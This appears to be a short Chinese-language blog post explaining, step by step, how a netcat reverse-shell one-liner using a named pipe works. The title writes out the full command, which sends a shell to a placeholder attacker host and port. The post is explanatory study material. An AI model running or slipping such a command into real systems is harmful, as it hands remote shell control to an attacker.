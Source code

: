 ```yaml
---
title: 怎么理解mkfifo /tmp/p; /bin/sh 0</tmp/p | nc $attacker $port 1>/tmp/p
layout: post
---
```

> One man's wilderness is another man's theme park.——Author unknown  

为了方便记忆，个人是这么理解的

1. 0为标准输入，1为标准输出

2. mkfifo创建named pipe名为p

3. 标准输入的结果给sh （此时为空，所以要｜进行管道来取得输入）

4. 连上攻击者后攻击者的输入为标注输出，把输出定向到/tmp/p，所以1>/tmp/p

5. 循环以上～
